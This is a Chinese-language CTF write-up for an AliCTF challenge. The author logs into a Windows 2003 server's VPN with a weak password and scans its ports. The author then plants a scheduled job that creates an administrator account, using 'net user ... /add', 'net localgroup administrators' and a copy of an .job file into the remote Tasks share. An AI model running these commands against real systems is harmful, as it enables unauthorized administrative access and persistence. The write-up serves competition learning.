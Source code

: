 请设法在服务器上新建一个以参赛者账号昵称为名字的管理员组账号.

创建成功后，访问 http://ageis.alictf.com，若能看到 “昵称:字符串”格式的内容，

则将 字符串 和你的 token 拼接即为flag。

```
A. 服务器上有一个账号叫 alictf，为弱密码。
B. 操作系统版本为 win2003 x64。
C. 本机已开启VPN服务。
D. 为了避免影响他人做题，在服务器上所有操作都不会真实成功的，只会完整记录。
E. 请不要对参赛服务器发起攻击，我们会记录，轻则屏蔽参赛者IP，重则取消比赛资格。

```

题目很明显就是要你登陆 VPN 。手工测试

```
alictf:123456

```

直接登录。 ifconfig 看一下， ip 是 172.16.0.1 扫了下端口，就开了 80 445 1025 1723 3389 没什么好想的 3389 肯定上不去，也不太可能是 snmp 直接 smb 那边考虑下，本来想无脑 msf 直接打，结果发现死活不成功，然后看了下官方的 tips 让我们好好看有存在什么文件，发现有两个文件，是 windows 计划任务文件夹下的文件， 即目录为

```
c:\windows\tasks

```

一开始 at 一直不成功，就想说是不是因为没写路径，然后就一直测试

```
at \\172.16.0.1 xx:xx c:\windows\tasks\server.exe

```

妄图执行一个远控，但是屡屡失败，然后看官方的描述

```
为了避免影响他人做题，在服务器上所有操作都不会真实成功的，只会完整记录。

```

考虑既然都不会执行，那要远控干嘛。。所以直接执行命令好了！但是，人生最精彩的就在这个但是，这样执行命令也是不行的！！！那怎么办回归原始，既然这个是个计划任务的文件夹，那我直接把 job 文件复制进去好了，但是其实按理说不行，因为计划任务和注册表有些版本是有关联的，但是比赛嘛，不管那么多了，先本地执行

```
at xx:xx "net user eee password /add && net localgroup administrators eee /add"

```

这样会在 c:\windows\tasks\ 目录生成一个 job 文件，那么我如果把这个文件复制进去是不是就能生成一个计划任务呢？Just do it

```
copy At1.job \\172.16.0.1\\Tasks\

```

复制进去，以防万一我弄了 At2.job 和 At65535.job 然后等待服务器执行！